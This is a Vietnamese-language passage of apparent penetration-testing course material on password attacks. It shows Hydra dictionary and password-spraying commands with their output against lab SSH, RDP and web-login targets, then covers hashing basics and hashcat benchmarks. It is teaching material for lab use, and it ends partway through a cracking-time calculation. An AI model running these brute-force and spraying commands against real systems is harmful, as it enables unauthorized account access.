

# Password Attacks

# Password Attacks

---

Trong Learning Module này, chúng ta sẽ đề cập đến các Learning Unit sau:

- Tấn công đăng nhập các dịch vụ mạng
- Cơ bản về Password Cracking
- Làm việc với Password Hash

Mặc dù hiện nay tồn tại nhiều phương pháp hiện đại cho việc xác thực tài khoản người dùng và dịch vụ (chẳng hạn như xác thực sinh trắc học hoặc Public Key Infrastructure), cơ chế xác thực bằng mật khẩu đơn giản vẫn là phương pháp phổ biến và cơ bản nhất.

Trong Module này, chúng ta sẽ khám phá, thu thập và khai thác mật khẩu (và trong một số trường hợp là các thành phần triển khai bên dưới của chúng) để giành quyền truy cập vào một tài khoản người dùng hoặc một hệ thống. Chúng ta sẽ thảo luận về các cuộc tấn công mạng, kỹ thuật password cracking, cũng như các tấn công nhắm vào các cơ chế xác thực dựa trên Windows.

---

# 1. Tấn công đăng nhập các dịch vụ mạng

---

Learning Unit này bao gồm các Learning Objectives sau:

- Tấn công đăng nhập SSH và RDP
- Tấn công các form đăng nhập HTTP POST

Trong thập kỷ qua, các cuộc tấn công brute-force và dictionary nhắm vào các dịch vụ mạng được public đã gia tăng một cách đáng kể. Trên thực tế, các dịch vụ phổ biến như Secure Shell (SSH), Remote Desktop Protocol (RDP) và Virtual Network Computing (VNC) cũng như các form đăng nhập dựa trên web thường bị tấn công chỉ vài giây sau khi được khởi chạy.

Brute-force attack cố gắng thử mọi biến thể mật khẩu có thể, lần lượt duyệt qua mọi tổ hợp của chữ cái, chữ số và ký tự đặc biệt. Mặc dù quá trình này có thể mất một khoảng thời gian đáng kể, phụ thuộc vào độ dài mật khẩu và protocol được sử dụng, về mặt lý thuyết các cuộc tấn công này có thể vượt qua bất kỳ hệ thống xác thực dựa trên mật khẩu nào được bảo vệ kém.

Ngược lại, dictionary attack cố gắng xác thực vào các dịch vụ bằng các mật khẩu lấy từ danh sách các từ phổ biến (wordlist). Nếu mật khẩu đúng không tồn tại trong wordlist, cuộc tấn công dictionary sẽ thất bại.

Trong Learning Unit này, chúng ta sẽ sử dụng dictionary attack để phát hiện các thông tin xác thực hợp lệ cho các dịch vụ mạng và các form đăng nhập HTTP.

---

## 1.1. SSH và RDP

---

Trong phần này, chúng ta sẽ thực hiện các cuộc tấn công dictionary nhắm vào các dịch vụ SSH và RDP phổ biến bằng công cụ mã nguồn mở THC Hydra. Công cụ này có khả năng thực hiện nhiều kiểu tấn công mật khẩu khác nhau đối với nhiều dịch vụ và protocol mạng. Chúng ta cũng sẽ sử dụng wordlist phổ biến rockyou.txt, chứa hơn 14 triệu mật khẩu. Cả hai đều đã được cài đặt sẵn trên máy Kali của chúng ta.

Để bắt đầu, hãy khởi động máy BRUTE (VM #1 trong mục Resources). Trong ví dụ đầu tiên, chúng ta sẽ tấn công dịch vụ SSH (port 2222) trên máy này, có địa chỉ IP là 192.168.50.201. Mục tiêu của chúng ta là xác định mật khẩu của người dùng george.

*Địa chỉ IP của BRUTE có thể khác trong môi trường của bạn.*

Trước khi bắt đầu dictionary attack, chúng ta cần xác nhận rằng mục tiêu đang chạy dịch vụ SSH trên port 2222.

```bash
kali@kali:~$ sudo nmap -sV -p 2222 192.168.50.201
...
PORT   STATE SERVICE
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
...
```

                   *Listing 1 - Kiểm tra xem mục tiêu có đang chạy dịch vụ SSH hay không*

Kết quả cho thấy SSH đang mở. Chúng ta giả định rằng thông qua quá trình information gathering, chúng ta đã phát hiện ra user george.

Cần lưu ý rằng định dạng của username cũng gợi ý rằng công ty có thể sử dụng tên riêng của người dùng làm tên tài khoản. Thông tin này có thể hỗ trợ chúng ta trong các nỗ lực information gathering sau này.

Tiếp theo, chúng ta chuẩn bị sử dụng file wordlist rockyou.txt. Vì file này được nén để tiết kiệm dung lượng, chúng ta cần giải nén nó bằng `gzip -d`. Cuối cùng, chúng ta có thể chạy hydra.

Chúng ta sẽ tấn công một username duy nhất bằng tùy chọn `-l george`, chỉ định port bằng `-s`, khai báo danh sách mật khẩu với `-P` và xác định mục tiêu bằng `ssh://192.168.50.201`:

```
kali@kali:~$ cd /usr/share/wordlists/

kali@kali:~$ ls
dirb  dirbuster  fasttrack.txt  fern-wifi  metasploit  nmap.lst  rockyou.txt.gz  wfuzz

kali@kali:~$ sudo gzip -d rockyou.txt.gz

kali@kali:~$ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.50.201:22/
[2222][ssh] host: 192.168.50.201   login: george   password: chocolate
1 of 1 target successfully completed, 1 valid password found
...
```

                                 *Listing 2 - Giải nén Gzip archive và tấn công SSH*

Listing cho thấy chúng ta đã sử dụng Hydra thành công để phát hiện thông tin đăng nhập hợp lệ cho user george.

Dictionary attack thành công vì mật khẩu tồn tại trong wordlist rockyou.txt và chúng ta đã biết tên user cần tấn công. Tuy nhiên, nếu không có username hợp lệ, chúng ta sẽ phải sử dụng các kỹ thuật enumeration và information gathering để tìm ra chúng. Ngoài ra, chúng ta cũng có thể tấn công các tài khoản mặc định như root (trên Linux) hoặc Administrator (trên Windows).

Trong ví dụ tiếp theo, chúng ta sẽ thử sử dụng một mật khẩu duy nhất đối với nhiều username khác nhau bằng kỹ thuật được gọi là password spraying.

Do có rất nhiều cách khác nhau để thu được mật khẩu, đây là một kỹ thuật cực kỳ khả thi. Ví dụ, chúng ta có thể lấy được credentials thông qua một trong các kỹ thuật được thảo luận ở phần sau của Module này, hoặc tìm thấy chúng được lưu dưới dạng plaintext trong một file, hoặc thông qua việc sử dụng các cơ sở dữ liệu rò rỉ mật khẩu trực tuyến. Các dịch vụ này (chẳng hạn như ScatteredSecrets) theo dõi các vụ rò rỉ và compromise mật khẩu, sau đó bán lại các mật khẩu plaintext. Điều này có thể rất hữu ích trong quá trình penetration test, nhưng chúng ta phải đảm bảo không vi phạm điều khoản của các dịch vụ này, chỉ sử dụng mật khẩu khi có sự hợp tác trực tiếp với chủ sở hữu hợp pháp, và phải xem xét kỹ để xác định liệu dịch vụ đó có đang hoạt động hợp pháp hay không. Ví dụ, WeLeakInfo gần đây đã bị FBI và Bộ Tư pháp Hoa Kỳ thu giữ vì các cáo buộc hoạt động bất hợp pháp.

Chúng ta sẽ minh họa kịch bản này bằng cách thực hiện một spray attack nhắm vào dịch vụ RDP trên BRUTE2. Để làm điều này, hãy tắt máy BRUTE (VM #1) và khởi động BRUTE2 (VM #2) trong mục Resources. Trong ví dụ này, chúng ta giả định rằng đã thu được một mật khẩu người dùng hợp lệ (SuperS3cure1337#), và chúng ta sẽ thử mật khẩu đó với nhiều tên tài khoản người dùng tiềm năng khác nhau.

Chúng ta tiếp tục sử dụng hydra, thiết lập danh sách username bằng -L /usr/share/wordlists/dirb/others/names.txt (chứa hơn tám nghìn username) và một mật khẩu duy nhất với -p "SuperS3cure1337#". Lần này, chúng ta sẽ sử dụng protocol RDP và xác định mục tiêu bằng rdp://192.168.50.202.

```
kali@kali:~$ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
...
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:14344399/p:1), ~3586100 tries per task
[DATA] attacking rdp://192.168.50.202:3389/
...
[3389][rdp] host: 192.168.50.202   login: daniel   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
[3389][rdp] host: 192.168.50.202   login: justin   password: SuperS3cure1337#
[ERROR] freerdp: The connection failed to establish.
...
```

                              *Listing 3 - Thực hiện password spraying trên dịch vụ RDP*

Do kích thước của danh sách đã chọn, password attack sẽ mất khoảng 15 phút để phát hiện hai thông tin xác thực hợp lệ. Khi làm theo bài, chúng ta có thể giảm thời gian này bằng cách tạo một danh sách chỉ gồm hai dòng: “daniel” và “justin”.

Trong trường hợp này, chúng ta đã xác định được hai username sử dụng mật khẩu mà chúng ta phát hiện từ cơ sở dữ liệu rò rỉ. Chúng ta nên luôn cố gắng tận dụng mọi mật khẩu plaintext thu được bằng cách spray chúng lên các hệ thống của mục tiêu. Điều này có thể làm lộ ra những người dùng sử dụng cùng một mật khẩu trên nhiều hệ thống khác nhau. Tuy nhiên, chúng ta cũng phải thận trọng khi thực hiện các cuộc tấn công trên diện rộng.

Dictionary attack tạo ra rất nhiều “noise” về mặt log, event và traffic. Trong khi lưu lượng mạng lớn có thể làm sập một mạng, thì phản ứng của các công nghệ bảo mật khác nhau còn có thể gây ra hậu quả không mong muốn hơn. Ví dụ, một chương trình bảo vệ brute force cơ bản có thể khóa tài khoản người dùng sau ba lần đăng nhập thất bại. Trong một penetration test thực tế, điều này có thể dẫn đến việc khóa người dùng khỏi các hệ thống production quan trọng. Trước khi sử dụng công cụ một cách mù quáng, chúng ta phải thực hiện enumeration kỹ lưỡng để xác định và tránh các rủi ro này.

Trong phần này, chúng ta đã thực hiện dictionary attack nhắm vào các dịch vụ mạng phổ biến SSH và RDP. Mặc dù Hydra giúp quá trình này trở nên đơn giản đối với hầu hết các protocol, một số protocol khác yêu cầu nhiều thông tin hơn. Chúng ta sẽ tìm hiểu điều này với các form đăng nhập HTTP POST trong phần tiếp theo.

Trước khi bước vào các bài tập đầu tiên của Module này, chúng ta cần lưu ý rằng quá trình tấn công xác thực trên mục tiêu trong các bài tập hoặc challenge lab không nên kéo dài quá ba phút. Nếu quá trình này mất nhiều thời gian hơn, bạn nên kiểm tra lại command và các argument đã sử dụng, hoặc thử một cách tiếp cận khác.

---

## 1.2. Form đăng nhập HTTP POST

---

Trong hầu hết các đánh giá nội bộ và bên ngoài, chúng ta sẽ phải đối mặt với một dịch vụ web. Tùy thuộc vào dịch vụ, chúng ta có thể không tương tác được với nó cho đến khi đăng nhập. Nếu đây là vector duy nhất và chúng ta không thể sử dụng default credentials để đăng nhập, chúng ta nên cân nhắc việc sử dụng dictionary attack để giành quyền truy cập.

Phần lớn các dịch vụ web đều có một tài khoản người dùng mặc định, chẳng hạn như admin. Việc sử dụng username đã biết này cho dictionary attack sẽ làm tăng đáng kể khả năng thành công và giảm thời gian dự kiến của cuộc tấn công.

Trong phần này, chúng ta sẽ thực hiện một dictionary attack vào form đăng nhập của ứng dụng TinyFileManager, đang chạy trên port 80 trên web server BRUTE. Hãy truy cập vào trang đăng nhập.



                                          *Figure 1: Trang đăng nhập của TinyFileManager*

Sau khi đọc tài liệu của ứng dụng, chúng ta phát hiện rằng TinyFileManager bao gồm hai user mặc định: admin và user. Sau khi thử và không đăng nhập được bằng default credentials của ứng dụng, chúng ta sẽ tấn công mật khẩu của user bằng wordlist rockyou.txt.

Việc tấn công một form đăng nhập HTTP POST bằng Hydra không đơn giản như tấn công SSH hay RDP. Trước tiên, chúng ta phải thu thập hai mẩu thông tin khác nhau. Thứ nhất là POST data, chứa request body chỉ định username và password. Thứ hai, chúng ta phải bắt được một lần đăng nhập thất bại để giúp Hydra phân biệt giữa đăng nhập thành công và đăng nhập thất bại.

Chúng ta sẽ sử dụng Burp để intercept một lần đăng nhập nhằm lấy request body trong POST data. Để làm điều này, trước hết chúng ta khởi động Burp và bật chế độ intercept. Tiếp theo, trong trình duyệt, chúng ta nhập username là user và bất kỳ mật khẩu nào vào form đăng nhập. Hình dưới đây cho thấy POST request bị intercept cho lần đăng nhập này.


                                                      *Figure 2: Login Request bị intercept*

Vùng được đánh dấu cho biết request body mà chúng ta cần cung cấp cho Hydra trong POST request.

Tiếp theo, chúng ta cần xác định một lần đăng nhập thất bại. Cách đơn giản nhất để làm điều này là forward request hoặc tắt intercept và kiểm tra form đăng nhập trong trình duyệt. Hình dưới đây cho thấy một thông báo xuất hiện, cho biết rằng lần đăng nhập của chúng ta đã thất bại.


                                                      *Figure 2: Login Request bị intercept*

Đoạn text được đánh dấu xuất hiện sau một lần đăng nhập thất bại. Chúng ta sẽ cung cấp đoạn text này cho Hydra như một failed login identifier.

Trong các ứng dụng web phức tạp hơn, chúng ta có thể cần phân tích sâu hơn request và response hoặc thậm chí kiểm tra source code của form đăng nhập để tách ra chỉ dấu của đăng nhập thất bại, nhưng điều này nằm ngoài phạm vi của Module này.

Bây giờ, chúng ta có thể ghép các thành phần lại để bắt đầu cuộc tấn công Hydra. Tương tự như trước, chúng ta sẽ chỉ định `-l` cho user, `-P` cho wordlist, địa chỉ IP mục tiêu không kèm protocol, và một tham số mới http-post-form, tham số này chấp nhận ba trường được phân tách bằng dấu hai chấm.

Trường đầu tiên chỉ ra vị trí của form đăng nhập. Trong bài demo này, form đăng nhập nằm trên trang web `index.php`. Trường thứ hai chỉ định request body được sử dụng để cung cấp username và password cho form đăng nhập, mà chúng ta đã lấy được bằng Burp. Cuối cùng, chúng ta phải cung cấp failed login identifier, còn được gọi là condition string.

Trước khi cung cấp các tham số cho Hydra và khởi chạy cuộc tấn công, chúng ta cần hiểu rằng condition string sẽ được tìm kiếm trong response của ứng dụng web để xác định xem đăng nhập có thành công hay không. Để giảm false positive, chúng ta nên tránh các từ khóa như password hoặc username. Để làm được điều này, chúng ta có thể rút gọn condition string một cách phù hợp.

Lệnh hoàn chỉnh với condition string đã được rút gọn được hiển thị bên dưới. Sau khi thực thi lệnh, chúng ta sẽ chờ một chút để Hydra xác định một bộ thông tin xác thực hợp lệ.

```
kali@kali:~$ hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
...
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://192.168.50.201:80/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid username or password
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 14344335 to do in 3735:31h, 16 active
[80][http-post-form] host: 192.168.50.201   login: user   password: 121212
1 of 1 target successfully completed, 1 valid password found
...
```

                               *Listing 4 - Dictionary Attack thành công vào form đăng nhập*

Trong trường hợp này, dictionary attack của chúng ta đã thành công và chúng ta đã xác định được một mật khẩu hợp lệ (121212) cho user. Hãy thử đăng nhập để xác nhận lại thông tin xác thực.


                                                    *Figure 2: Đăng nhập thành công*

Theo output trong Figure 2, chúng ta đã đăng nhập thành công. Tốt lắm!

Cũng như mọi dictionary attack khác, phương pháp này tạo ra rất nhiều “noise” và nhiều event. Nếu được cài đặt, một Web Application Firewall (WAF) sẽ nhanh chóng chặn hoạt động này. Các ứng dụng bảo vệ brute force khác cũng có thể chặn được, chẳng hạn như fail2ban, vốn sẽ khóa tài khoản người dùng sau một số lần đăng nhập thất bại nhất định. Tuy nhiên, các dịch vụ web thường không được trang bị đầy đủ các cơ chế bảo vệ như vậy, khiến đây trở thành một vector cực kỳ hiệu quả đối với các mục tiêu này.

Nhìn chung, dictionary attack có thể rất hiệu quả, đặc biệt khi chúng ta bắt đầu với một số thông tin đã biết và cân bằng cuộc tấn công trong bối cảnh các cơ chế phòng thủ tiềm năng.

---

# 2. Cơ bản về Password Cracking

---

Learning Unit này bao gồm các Learning Objectives sau:

- Hiểu các nguyên lý cơ bản của password cracking
- Biến đổi wordlist (mutate wordlists)
- Giải thích phương pháp password cracking cơ bản
- Tấn công các key file của password manager
- Tấn công passphrase của SSH private key

Trong Learning Unit này, chúng ta sẽ tập trung vào password cracking, bắt đầu bằng việc thảo luận các nguyên lý cơ bản. Chúng ta sẽ khám phá quá trình biến đổi các wordlist hiện có bằng Rules, thảo luận một phương pháp cracking cơ bản, và tiến hành crack mật khẩu của các file cơ sở dữ liệu cũng như passphrase của SSH private key.

---

## 2.1. Giới thiệu về Encryption, Hash và Cracking

---

Trong phần này, chúng ta sẽ xem xét sự khác biệt giữa encryption và hash algorithm, đồng thời thảo luận về password cracking. Sau đó, chúng ta sẽ điểm qua hai công cụ password cracking phổ biến: Hashcat và John the Ripper (JtR). Cuối cùng, chúng ta sẽ tính toán thời gian cần thiết để crack một số loại hash nhất định.

PEN-100 có một Module chuyên biệt về Cryptography, đây là một tài nguyên rất tốt cho phần thảo luận cơ bản được trình bày ở đây.

Để bắt đầu, chúng ta hãy thảo luận các khái niệm cơ bản về encryption. Encryption là một hàm hai chiều, trong đó dữ liệu được “xáo trộn” (encrypt) hoặc “giải xáo trộn” (decrypt) bằng ít nhất một key. Dữ liệu đã được mã hóa được gọi là ciphertext.

Các thuật toán symmetric encryption sử dụng cùng một key cho cả quá trình mã hóa và giải mã. Để gửi một thông điệp cho người khác, cả hai bên đều cần biết key (password). Nếu họ trao đổi key qua một kênh không an toàn, attacker có thể chặn được key đó. Ngoài ra, attacker còn có thể sử dụng một cuộc tấn công Man-in-the-middle để giành quyền truy cập vào các thông điệp đã được mã hóa được gửi giữa các bên giao tiếp. Khi có cả key bị chặn và quyền truy cập vào các thông điệp đã mã hóa, attacker có thể giải mã và đọc nội dung của chúng. Điều này tạo ra một rủi ro bảo mật rất lớn, vì toàn bộ mức độ an toàn của giao tiếp phụ thuộc vào việc bảo mật một key duy nhất, vốn phải được cả hai bên biết trước khi bắt đầu giao tiếp. Advanced Encryption Standard (AES) là một ví dụ về thuật toán symmetric encryption.

Asymmetric encryption sử dụng các cặp key riêng biệt bao gồm private key và public key. Mỗi người dùng trong giao dịch này đều có cặp key của riêng mình. Để nhận một thông điệp được mã hóa, người dùng cung cấp public key của mình cho đối tác giao tiếp, và đối tác sẽ sử dụng key này để mã hóa thông điệp gửi cho chúng ta. Khi thông điệp được gửi đi, chỉ private key tương ứng mới có thể giải mã thông điệp. Một thuật toán asymmetric encryption phổ biến là Rivest–Shamir–Adleman (RSA).¹⁰

Ngược lại, hash (hoặc digest) là kết quả của việc đưa dữ liệu đầu vào có độ dài thay đổi (trong trường hợp này là plaintext password) qua một hash algorithm (chẳng hạn như SHA1 hoặc MD5).

Kết quả là một giá trị hexadecimal có độ dài cố định, về mặt thực tiễn là duy nhất, đại diện cho plaintext ban đầu. Nói cách khác, plaintext khi được đưa qua một hash algorithm cụ thể sẽ luôn tạo ra cùng một hash, và hash thu được là (theo thống kê) duy nhất. Ngoại lệ duy nhất cho điều này là trường hợp cực kỳ hiếm của hash collision, trong đó hai giá trị đầu vào khác nhau lại tạo ra cùng một giá trị hash.

Phần lớn các hash algorithm được sử dụng phổ biến như MD5 và SHA1 là các cryptographic hash function. Các hash algorithm này là các hàm một chiều, nghĩa là việc tạo ra hash là rất đơn giản, nhưng với một thuật toán được triển khai đúng cách, việc suy ra plaintext từ hash là cực kỳ khó khăn về mặt tính toán. Trong Module này, chúng ta sẽ thảo luận về các cryptographic hash function trừ khi có nêu rõ khác đi.

Hashing thường được tận dụng rộng rãi trong lĩnh vực an toàn thông tin. Ví dụ, khi một người dùng đăng ký tài khoản thông qua một ứng dụng, họ sẽ thiết lập một mật khẩu. Mật khẩu này thường được hash và lưu trong cơ sở dữ liệu để quản trị viên của hệ thống (và attacker) không thể truy cập vào plaintext password.

Khi có một lần đăng nhập, mật khẩu được nhập vào sẽ được hash và giá trị hash đó sẽ được so sánh với giá trị hash được lưu trong cơ sở dữ liệu. Nếu hai giá trị trùng khớp, mật khẩu nhập vào là đúng và người dùng được đăng nhập.

Trong phạm vi của các cuộc tấn công mật khẩu, mật khẩu của ứng dụng và người dùng thường được mã hóa hoặc hash để bảo vệ chúng.

Để giải mã một mật khẩu đã được mã hóa, chúng ta phải xác định được key đã được sử dụng để mã hóa nó. Để xác định plaintext của một mật khẩu đã được hash, chúng ta phải đưa nhiều plaintext password khác nhau qua hash algorithm và so sánh hash thu được với hash mục tiêu. Các kiểu tấn công này được gọi chung là password cracking, và thường được thực hiện trên một hệ thống chuyên dụng. Do quá trình này có thể mất một khoảng thời gian đáng kể, chúng ta thường chạy song song nó với các hoạt động khác trong suốt quá trình penetration test.

Không giống như các dictionary attack cơ bản nhắm vào dịch vụ mạng và form đăng nhập đã được trình bày trong Learning Unit trước, password cracking không tiêu tốn băng thông mạng, không khóa tài khoản và không bị ảnh hưởng bởi các công nghệ phòng thủ truyền thống.

Chúng ta có thể thực hiện password cracking cơ bản với một ví dụ đơn giản. Giả sử chúng ta đã giành được quyền truy cập vào một SHA-256 password hash có giá trị là

`5b11618c2e44027877d0cd0921ed166b9f176f50587fc91e7534dd2946db77d6`.

Có nhiều cách khác nhau để chúng ta có thể thu được hash này, nhưng trong mọi trường hợp, chúng ta đều có thể sử dụng sha256sum để hash các mật khẩu khác nhau và kiểm tra kết quả. Trong ví dụ này, chúng ta sẽ hash chuỗi “secret”, sau đó hash “secret” một lần nữa, và cuối cùng hash chuỗi “secret1”. Chúng ta sẽ sử dụng echo -n để loại bỏ ký tự newline khỏi chuỗi (vốn nếu có sẽ được thêm vào chuỗi và làm thay đổi giá trị hash).

```
kali@kali:~$ echo -n "secret" | sha256sum
2bb80d537b1da3e38bd30361aa855686bde0eacd7162fef6a25fe97bf527a25b  -

kali@kali:~$ echo -n "secret" | sha256sum
2bb80d537b1da3e38bd30361aa855686bde0eacd7162fef6a25fe97bf527a25b  -

kali@kali:~$ echo -n "secret1" | sha256sum
5b11618c2e44027877d0cd0921ed166b9f176f50587fc91e7534dd2946db77d6  -
```

                         *Listing 5 - So sánh các giá trị hash thu được cho secret và secret1*

Trong ví dụ này, chúng ta hash “secret” hai lần để cho thấy rằng giá trị hash đầu ra luôn giống nhau. Lưu ý rằng các hash của “secret” và “secret1” hoàn toàn khác nhau mặc dù các chuỗi đầu vào khá giống nhau. Ngoài ra, hãy chú ý rằng hash của “secret1” trùng khớp với hash mà chúng ta đã thu thập. Điều này có nghĩa là chúng ta đã xác định được plaintext password (“secret1”) tương ứng với hash đó. Rất tuyệt.

Tuy nhiên, đây là một cách rất đơn giản và khá vụng về để crack password hash. May mắn là có những công cụ tốt hơn rất nhiều. Hashcat và John the Ripper (JtR) là hai trong số những công cụ password cracking phổ biến nhất. Nhìn chung, JtR thiên về cracking dựa trên CPU, mặc dù cũng hỗ trợ GPU, trong khi Hashcat chủ yếu là công cụ cracking dựa trên GPU nhưng cũng hỗ trợ CPU. JtR có thể được chạy mà không cần driver bổ sung nào, chỉ sử dụng CPU để crack mật khẩu. Hashcat yêu cầu OpenCL hoặc CUDA cho quá trình cracking bằng GPU. Đối với hầu hết các thuật toán, GPU nhanh hơn CPU rất nhiều vì các GPU hiện đại chứa hàng nghìn core, mỗi core có thể chia sẻ một phần khối lượng công việc. Tuy nhiên, một số thuật toán hash chậm (như bcrypt) lại hoạt động tốt hơn trên CPU.

Việc làm quen với nhiều công cụ khác nhau là rất quan trọng, vì chúng không hỗ trợ cùng một tập thuật toán. Chúng ta sẽ xem xét cả hai công cụ này trong Module này.

Trước khi bắt đầu crack mật khẩu, hãy tính toán thời gian cracking của các dạng hash khác nhau. Thời gian cracking có thể được tính bằng cách chia keyspace cho hash rate.

Keyspace bao gồm tập ký tự (character set) lũy thừa với số lượng ký tự hoặc độ dài của thông tin ban đầu (mật khẩu). Ví dụ, nếu chúng ta sử dụng bảng chữ cái Latin viết thường (26 ký tự), bảng chữ cái viết hoa (26 ký tự), và các chữ số từ 0 đến 9 (10 ký tự), thì chúng ta có một character set gồm 62 khả năng cho mỗi ký tự. Nếu chúng ta đối mặt với một mật khẩu dài năm ký tự, thì chúng ta đang đối mặt với 62 mũ năm khả năng mật khẩu khác nhau chứa năm ký tự này.

Vì việc tính toán này rất quan trọng, hãy sử dụng terminal để tính keyspace cho một mật khẩu dài năm ký tự bằng cách echo tập ký tự của chúng ta sang wc với tùy chọn -c để đếm số ký tự. Chúng ta tiếp tục sử dụng -n cho lệnh echo để loại bỏ ký tự newline. Sau đó, chúng ta có thể sử dụng python3 để thực hiện phép tính, với -c để thực thi phép tính và print để hiển thị kết quả.

```
kali@kali:~$ echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c
62

kali@kali:~$ python3 -c "print(62**5)"
916132832
```

                                  *Listing 6 - Tính toán keyspace cho mật khẩu có độ dài 5*

Đối với mật khẩu dài năm ký tự và tập ký tự đã chỉ định, chúng ta có keyspace là `916.132.832`. Con số này xác định có bao nhiêu biến thể duy nhất có thể được tạo ra cho một mật khẩu dài năm ký tự với tập ký tự này. Bây giờ, khi đã có keyspace trong bối cảnh của ví dụ này, chúng ta cũng cần hash rate để tính thời gian cracking. Hash rate là thước đo số lượng phép tính hash có thể được thực hiện trong một giây.

Để tìm hash rate, chúng ta có thể sử dụng chế độ benchmark của Hashcat để xác định hash rate cho các hash algorithm khác nhau trên phần cứng cụ thể của mình.

Chúng ta sẽ sử dụng hashcat với tùy chọn -b để khởi chạy benchmark mode. Trước tiên, chúng ta sẽ benchmark CPU bằng cách chạy trong một máy ảo Kali không gắn GPU. Khi làm theo trên một hệ thống Kali cục bộ, kết quả có thể sẽ khác.

```
kali@kali:~$ hashcat -b
hashcat (v6.2.5) starting in benchmark mode
...
* Device #1: pthread-Intel(R) Core(TM) i9-10885H CPU @ 2.40GHz, 1545/3154 MB (512 MB allocatable), 4MCU

Benchmark relevant options:
===========================
* --optimized-kernel-enable

-------------------
* Hash-Mode 0 (MD5)
-------------------

Speed.#1.........:   450.8 MH/s (2.19ms) @ Accel:256 Loops:1024 Thr:1 Vec:8

----------------------
* Hash-Mode 100 (SHA1)
----------------------

Speed.#1.........:   298.3 MH/s (3.22ms) @ Accel:256 Loops:1024 Thr:1 Vec:8

---------------------------
* Hash-Mode 1400 (SHA2-256)
---------------------------

Speed.#1.........:   134.2 MH/s (7.63ms) @ Accel:256 Loops:1024 Thr:1 Vec:8
```

                           *Listing 7 - Benchmark CPU với MD5, SHA1 và SHA2-256*

Benchmark hiển thị hash rate cho tất cả các mode được Hashcat hỗ trợ. Listing ở trên đã được rút gọn, vì Hashcat hỗ trợ rất nhiều hash algorithm. Hiện tại, chúng ta chỉ quan tâm đến MD5, SHA1 và SHA-256. Các giá trị hash rate được tính bằng MH/s, trong đó 1 MH/s tương đương với 1.000.000 hash mỗi giây. Lưu ý rằng kết quả sẽ khác nhau trên các phần cứng khác nhau. Hãy ghi lại các hash rate được hiển thị trong benchmark CPU ở Listing này và chạy benchmark GPU để chúng ta có thể so sánh kết quả.

Đối với benchmark tiếp theo, chúng ta sẽ sử dụng một hệ thống khác có gắn GPU. Một lần nữa, chúng ta sử dụng benchmark mode của Hashcat để tính hash rate cho MD5, SHA1 và SHA-256.

Một bài benchmark GPU không thể được chạy trong lab.

```
C:\Users\admin\Downloads\hashcat-6.2.5>hashcat.exe -b
hashcat (v6.2.5) starting in benchmark mode
...
* Device #1: NVIDIA GeForce RTX 3090, 23336/24575 MB, 82MCU

Benchmark relevant options:
===========================
* --optimized-kernel-enable

-------------------
* Hash-Mode 0 (MD5)
-------------------

Speed.#1.........: 68185.1 MH/s (39.99ms) @ Accel:256 Loops:1024 Thr:128 Vec:8

----------------------
* Hash-Mode 100 (SHA1)
----------------------

Speed.#1.........: 21528.2 MH/s (63.45ms) @ Accel:64 Loops:512 Thr:512 Vec:1

---------------------------
* Hash-Mode 1400 (SHA2-256)
---------------------------

Speed.#1.........:  9276.3 MH/s (73.85ms) @ Accel:16 Loops:1024 Thr:512 Vec:1
```

                              *Listing 8 - Benchmark GPU với MD5, SHA1 và SHA2-256*

Hãy so sánh hash rate của GPU và CPU.

| **Algorithm** | **GPU** | **CPU** |
| --- | --- | --- |
| MD5 | 68,185.1 MH/s | 450.8 MH/s |
| SHA1 | 21,528.2 MH/s | 298.3 MH/s |
| SHA256 | 9,276.3 MH/s | 134.2 MH/s |

                                         *Listing 9 - So sánh hash rate của GPU và CPU*

Điều này làm nổi bật sự cải thiện tốc độ mà GPU mang lại. Bây giờ khi đã có tất cả các giá trị cần thiết, hãy tính toán thời gian cracking cần thiết cho mật khẩu dài năm ký tự của chúng ta.

Trong ví dụ này, chúng ta sẽ tính thời gian cracking cho SHA256 với keyspace là 916.132.832, đã được tính trước đó. Chúng ta đã biết rằng 1 MH/s tương đương với 1.000.000 hash mỗi giây. Do đó, chúng ta có thể tiếp tục sử dụng Python để tính thời gian cracking trên CPU và GPU. Lệnh đầu tiên sử dụng hash rate SHA-256 của CPU được tính trong Listing 7, và lệnh thứ hai sử dụng hash rate SHA-256 của GPU được tính trong Listing 8. Định dạng đầu ra của các phép tính sẽ là giây.

```
kali@kali:~$ python3 -c "print(916132832 / 134200000)"
6.826623189269746

